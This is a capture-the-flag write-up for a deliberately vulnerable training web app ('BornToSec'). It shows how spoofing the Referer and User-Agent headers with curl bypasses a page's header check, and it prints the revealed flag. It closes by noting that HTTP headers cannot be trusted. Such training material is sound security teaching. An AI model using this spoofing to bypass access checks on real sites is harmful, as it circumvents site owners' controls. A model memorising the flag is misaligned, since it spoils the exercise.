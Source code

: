 When we click on `© BornToSec` at the bottom of the page, we get redirected to `http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`  

In the source code, we see the following lines:  
```
You must come from : "https://www.nsa.gov/".
...
Let's use this browser : "ft_bornToSec". It will help you a lot.
```  

So we must make the website believe that we landed to this page from the nsa website, and that we are accessing it through a browser named "ft_bornToSec".  

In the Headers, we have the following:  
![headers](headers.png)  

The Referer is set at `http://192.168.56.103/`, because we were redirected to this page from the home page.  
`The Referer field in the HTTP header identifies the page that led to the current web page. When a user clicks on a link on web page A to go to web page B, the referer header string for page B will contain the URL of page A.`

The browser is stored in 'User-Agent'.  
`A user agent is nothing but software agent that is acting on behalf of a user. When you use Firefox on Ubuntu Linux, it sends the “Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0” as a user agent to the web server`

We need to modify these 2 fields.  

```
$ curl --referer Referer_URL target_URL ...
$ curl --user-agent "user-agent-name-here" target_URL
```

# Solution

```
curl --referer "https://www.nsa.gov/" --user-agent "ft_bornToSec" "http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep flag

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0  5290k      0 --:--:-- --:--:-- --:--:-- 5899k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">

```  


We should not use information coming from the HTTP Headers, as they can be altered by a third-party easily.